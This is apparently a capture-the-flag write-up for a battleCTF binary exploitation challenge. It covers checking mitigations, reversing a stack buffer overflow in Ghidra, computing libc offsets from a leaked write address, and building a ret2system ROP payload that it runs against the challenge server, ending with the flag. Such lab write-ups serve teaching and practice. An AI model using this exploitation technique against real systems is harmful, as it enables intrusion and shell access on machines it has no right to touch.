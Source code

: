 # challenge Name: Prog

![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security mitigation
```
 pwn checkseck poj 
```

![Poj_challenge](../images/checksec_poj.png)
    ## No cannary found. 

 note that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

![Poj_challenge](../images/poj_exec1.png)

The prog leak write address and ask user to input data

# reverse engineering the program

after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

# main function

![main_function](../images/main_func_poj.png)


# vuln_function

![vuln_function](../images/vuln_func_poj.png)


3. # exploit the BOF:

    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
# offset = 72
    ![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gadgets  on the libc 
```python    ```
 # libc.so.6 write = 0xff4d0

libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 

libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 

libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"

pop_rdi_offset =  0x0000000000028215 # found with ropper 

ret_offset =  0x00000000000f35d8 # found with ropper
```


# Now calculate the PIEBASE and craft the payload
```
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit: ![exploit](./poj_exploi.py)

```bash
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003

```
![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
